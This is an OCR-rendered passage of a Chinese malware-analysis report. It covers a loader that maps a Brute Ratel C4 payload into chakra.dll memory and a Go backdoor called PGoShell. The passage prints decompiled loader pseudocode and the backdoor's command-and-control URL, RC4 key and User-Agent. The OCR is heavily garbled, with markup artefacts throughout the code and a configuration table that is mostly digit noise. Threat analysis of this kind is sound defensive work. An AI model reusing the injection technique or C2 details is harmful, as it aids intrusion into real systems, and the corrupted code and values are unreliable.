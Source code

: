 ### 去掉" MZ" 的Brute Ratel (https://bruteratel.com/) C4  

### load_d11_3D645(  

//加载chakra.dll  

_int64 \*)(unsigned int)&v23, int64 \*)(unsigned int)&v24, _int64 \*)(unsigned int)&v25, (unsigned int)&v26, a1, v29);   
memcpy_payload_3D835(v24, $v2$ ，\*(unsigned int \*)( $(\vee4+\theta\times54\$ ));// 写入payload header   
$\downarrow5=$ (unsigned int \*)( $\vee4+\cdot*$ (unsigned _int16 \*) $(\lor4+2\theta)+24)$ ；   
if（\*(_WORD \*)( ${\vee}4+6{\:}$ ）   
{ $v6=v4+*$ (unsigned _int16 \*)( $(14+28)+64.$ v7 = v6 + 40i64 \* ((unsigned int)\*(unsigned _int16 \*)(v4 + 6) - 1); while（1） memcpy_payload_3D835(v24 + v5[3], v2 + v5[5], $v5$ [4]);/／写入各区段 $\downarrow5=$ (unsigned int \*)v6; if（ $v{6}~==~v{7}$ ） break; V6 $+=$ 40i64;  

### 将数据写入chakra.dll内存空间  

获取OEP并跳转执行，最终执行载荷既是BruteRatel（https://bruteratel.com/）C4:  

V8 =\*(OWORD \*)(a1 + 368):   
v20 =(void (fastcall \*)( int64 \*))(\*(unsigned int \*)(v4 + 0x28) + v24);// Nt Headers + 0x28 v9= v24 +\*(int \*)(v24 + 60); Seebug v20(v29); // >>> OEP  

### 跳转OEP执行  

## 4.2.2 Brute Ratel (https://bruteratel.com/) C4简述  

Brute Ratel(https://bruteratel.com/）C4是一个红队框架，并被视为CobaltStrike的替代品。该框架能够实现诸如文件管理、端口扫描、文件上传下载、屏幕截图等功能，以下为本次该载荷的配置截图，各项配置间使用"”进行分隔：  

<html><body><table><tr><td>九元4FF864772元8622042063元1356170569265262E669877487</td><td>C23446443460304618F66063672007006617026F61228847</td><td>3788878679764656965215465151556765613286154193737</td><td>1127151622498541612122043612598357724173244768870650584222</td><td>349465716279997635312765125657870125641676538716313128477346 E</td><td>OE</td><td>7c 18401869665456614302141373323161581561692512442542106123015607</td><td>m</td><td>354227615354179447428817020830246172625164156431566573877</td><td>1837479427472061286232846546127082866E8232</td><td></td><td>1141473354437613976518630646573683626013414963070131504</td><td>1306945196471696617166974829242139426132665252666115547442442295</td><td>304136418656740466554420301042574651701615156166435872477</td><td>19A54199427941216656210132081135821546556552426827465</td><td>113590841304302474841886710437232477443316724</td><td>23354</td><td>4472</td><td>0|90|45|100|1] 11iImh0dHA6Ly93 d3cudzMub3JnLzE5 oTkveGhobwwi|ey] odHRwOi8vd3d3LmJ haWR1LmNuL3N1YXJ jaCIiInO=|eyJTdw JtaXRoZWQioiJPay</td></tr></table></body></html>  

## 4.3 PGoShell（Winver.exe）分析  

PGoShell由Go语言开发，总体来看其功能较丰富，包括远程shell、屏幕截图，载荷下载执行等，由于首次发现该武器时主要功能为远程shell故而得名。相关详细逆向分析内容如下：  

初始化URl、RC4密钥，User-Agent,本次样本中RC4密钥内容为'0g8RXt137ODBeqPhTv2XYjgmnxUsijfc"。  

URL_960AE0 $=$ (_int64)"https://cartmizer.info/lkqnzntawldqjlwdxivsnemw";//   
qword_960AF8 $=$ 32LL;   
if （ dword_9B5610）   
{ $v5=$ runtime_gcWriteBarrier1(RC4_key_960AF0); \*v6 = v5;   
RC4_key_960AF0 $=$ (__int64)"0g8RXt1370DBeqPhTv2XYjgmnxUsijfc";// RC4 key   
qword_960B08 $=$ 28LL;   
if （ dword_9B5610）   
{ $v7=$ runtime_gcWriteBarrier1(UA_960B00); \*v8 = v7;   
了   
UA_960B00 $=$ （__int64)"QllXjxbyEvMuARVOztDiSZDNtQQb";// UA   
qword_960708 $=13\mathsf{L L}$  
